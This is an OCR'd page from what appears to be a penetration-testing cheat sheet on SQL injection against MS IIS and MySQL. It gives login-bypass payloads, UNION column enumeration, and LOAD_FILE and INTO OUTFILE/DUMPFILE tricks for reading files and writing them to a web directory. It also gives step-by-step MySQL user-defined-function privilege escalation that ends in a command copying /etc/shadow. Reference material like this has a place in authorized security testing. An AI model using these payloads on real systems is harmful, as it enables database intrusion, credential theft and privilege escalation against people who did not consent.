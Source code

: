 MS IIS

' OR '1=1';--

MySQL

'OR 1=1;--

'OR 1=1;\#

'OR 1=1 LIMIT 1;\#

**Enumerate number of columns/fields**

...UNION SELECT 1;--

...UNION SELECT 1,2;--

...UNION SELECT 1,2,3;--

**Load file by injecting into the vulnerable field - encode string if necessary**

…UNION ALL SELECT NULL,LOAD\_FILE\(‘&lt;user-readable-file&gt;’\),NULL,NULL;-- …UNION ALL SELECT NULL,LOAD\_FILE\(‘&lt;user-readable-file&gt;’\),NULL,NULL INTO OUTFILE ‘&lt;writeable-path-or-web-directorygt;’;--

**Dump/Write to file**

\(see encode text/shell to hex, base64\)

...SELECT \* FROM mytable INTO DUMPFILE ‘&lt;writeable-path-or-web-directorygt;’; —

...SELECT \* FROM mytable INTO OUTFILE ‘&lt;writeable-path-or-web-directorygt;’; —

[http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

[http://ferruh.mavituna.com/sql-injection-cheatsheet-oku](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku)

MySQL &lt;5.0 User Defined Functions

command execution and privilege escalation with mysql running as root/SYSTEM

mysql&gt; use mysql;

mysql&gt; create table &lt;table-name&gt;\(line blob\);

Query OK, 0 rows affected \(0.00 sec\)

mysql&gt; insert into &lt;table-name&gt; values\(load\_file\('&lt;path-to-udf.so-file&gt;'\);

Query OK, 1 rows affected \(0.00 sec\)

mysql&gt; select \* from &lt;table-name&gt; into dumpfile '/usr/lib/lib\_mysqludf\_sys.so';

Query OK, 1 rows affected \(0.00 sec\)

mysql&gt; create function &lt;name\_of\_new\_function&gt; returns int soname 'lib\_mysqludf\_sys.so';

Example command execution with the new function:

mysql&gt; set @status := &lt;name\_of\_new\_function&gt;\('cat /etc/shadow &gt; /tmp/shadow'\);
